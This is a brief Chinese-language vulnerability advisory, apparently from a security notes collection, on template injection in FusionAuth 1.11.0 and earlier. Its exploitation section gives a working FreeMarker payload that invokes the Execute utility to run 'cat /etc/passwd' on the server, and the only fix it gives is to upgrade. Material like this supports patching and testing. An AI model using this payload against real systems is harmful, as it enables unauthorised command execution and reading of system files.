

### 一 漏洞描述
FusionAuth是一个免费的身份管理平台，安装简单，易于集成。FusionAuth提供登录、注册、MFA、SSO、电子邮件模板、本地化、密码控制、强哈希、网络挂钩、基于角色的访问控制等功能。  
FusionAuth使用了 Apache FreeMarker 模板引擎，经过身份验证的用户允许编辑电子邮件模板（Settings/Email Templates/Edit/Preview），可通过利用freemarker.template.utility.Execute执行任意系统命令。

影响范围: FusionAuth <= 1.11.0

### 二 漏洞利用
`${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}`

### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/sycamorelg/article/details/117737584
